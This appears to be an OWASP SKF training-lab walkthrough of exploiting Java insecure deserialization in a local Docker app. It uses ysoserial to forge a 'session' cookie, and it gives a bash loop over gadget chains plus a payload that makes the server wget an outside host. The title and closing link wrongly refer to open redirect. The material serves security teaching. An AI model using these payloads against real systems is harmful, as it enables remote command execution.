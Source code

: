 # Open Redirect Harder

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-des-java
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-des-java
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step 1

The application shows that there is a username and role fields to be filled. After filling, once you clicked "Submit" will redirect you to a new page containing your provided info.

![](../../.gitbook/assets/java/DES-Java/1.png)

If we click on the button we will be redirected on the new page [http://localhost:5000/loggedin](http://localhost:5000/loggedin)

![](../../.gitbook/assets/java/DES-Java/2.png)

#### Step 2

Intercepting the traffic generated by the application, we note that the following endpoint requires 'session' cookie in the request to carry out data to this page. 

```text
GET /loggedin
```

![](../../.gitbook/assets/java/DES-Java/3.png)

The cookie of 'session' contains data to be processed(deserialized) and then prompts deserialized values to the user.
Once we decode the 'session' cookie as base64, we can see that username and role values are serialized as Java object.

![](../../.gitbook/assets/java/DES-Java/4.png)

As we suspected from the 'session', it is clearly seen in the code below that 'session' cookie is decoded from 
base64 and passed as constructor value to 'ObjectInputStream' object. Then it is casted to 'User' object as 'User user = (User) obj;'.

```
@GetMapping("/loggedin")
public String loggedIn( @CookieValue(name = "session", required = false) String sessionCookie,Model model){
  if(null != sessionCookie){
      try{
          ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(sessionCookie)));
          Object obj = ois.readObject();
          if((obj instanceof User)){
              User user = (User) obj;
              model.addAttribute("user", user.getUsername());
              model.addAttribute("role", user.getRole());
              return "loggedin";
          }else{
              return "index";
          }
      }catch(Exception e){
          e.printStackTrace();
          return "index";
      }
  }
  return "index";
}
```

Apparently, we can forge ourselves a new 'session' cookie in the form of Java Object which will be deserialized to 'Object' by 'ois.readObject()'. 

### Step 3

Forging Java objects manually takes too much effort, so we will be using a tool called ['ysoserial'](https://github.com/frohoff/ysoserial). The one can use precompiled jar file or compile it yourself. 
It is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing unsafe deserialization of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.
  

```
Usage: 
java -jar ysoserial-[version]-all.jar [payload] '[command]'

Sample:
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar  Spring1 'touch /tmp/pwn' | base64 -w0
```

![](../../.gitbook/assets/java/DES-Java/5.png)

Executing the sample command will yield a base64 encoded payload to be used to replace 'session' cookie in the application.


## Exploitation

Having the potential attack vector and the hady tool (ysoserial), we can try to exploit the deserialization vulnerability
The tools provides around 34 different payload to be generated using different classpaths.

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
```

![](../../.gitbook/assets/java/DES-Java/6.png)

We can prepare a ysoserial payload to run a OS command that create a new file '/tmp/pwn' on a Linux target. The command
can be different for Windows.

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'touch /tmp/pwn' | base64 -w0
```

We created the payload using 'CommonsCollections1' and as OS command 'touch /tmp/pwn' to generate the following payload. 

![](../../.gitbook/assets/java/DES-Java/7.png)

The previously created payload is replaced with the 'session' value and sent to the server as below.

![](../../.gitbook/assets/java/DES-Java/8.png)

On the server, we checked that there is no such file '/tmp/pwn', which means the attack failed. There are other ways
to check whether it succeded or not, for example using an outbound connection like sending DNS query to external DNS server.
We need to use other classpath payloads until we successfully execute command on the server.

![](../../.gitbook/assets/java/DES-Java/9.png)

Instead of doing it manually, we can use the following bash script to generate payloads for different classpaths.
```
#!/bin/bash

payloads="BeanShell1 Clojure CommonsBeanutils1 CommonsCollections1 CommonsCollections2 CommonsCollections3 CommonsCollections4 CommonsCollections5 CommonsCollections6 CommonsCollections7 Groovy1 Hibernate1 Hibernate2 JBossInterceptors1 JRMPClient JSON1 JavassistWeld1 Jdk7u21 MozillaRhino1 MozillaRhino2 Myfaces1 Myfaces2 ROME Spring1 Spring2 Vaadin1 Wicket1"
for payload in $payloads; do
   echo "Generating for $payload"
   cmd="java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $payload 'touch /tmp/pwn' | base64 -w0 > base64payload_$payload"
   echo "$cmd"
   eval "$cmd"
done
echo "Done."

```

Once we have the generated payload, let's give it to the intruder and find out if we ever succeeded.

![](../../.gitbook/assets/java/DES-Java/10.png)

It is seen that there is a file created on '/tmp/pwn', which means we successfully executed OS command on the server. 

![](../../.gitbook/assets/java/DES-Java/11.png)

After some checking, we found out that the following payload is succeeded for 'CommonsCollections5'.

![](../../.gitbook/assets/java/DES-Java/12.png)



Lets try running different command to test out of bound connection using following commands;

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "wget http://192.168.13.131" | base64 -w0
```


![](../../.gitbook/assets/java/DES-Java/13.png)

Yes! we got outbound connection that we can execute OS commands successfully!!

## Additional sources

- [https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect\_(OTG-CLIENT-004)](<https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004)>)

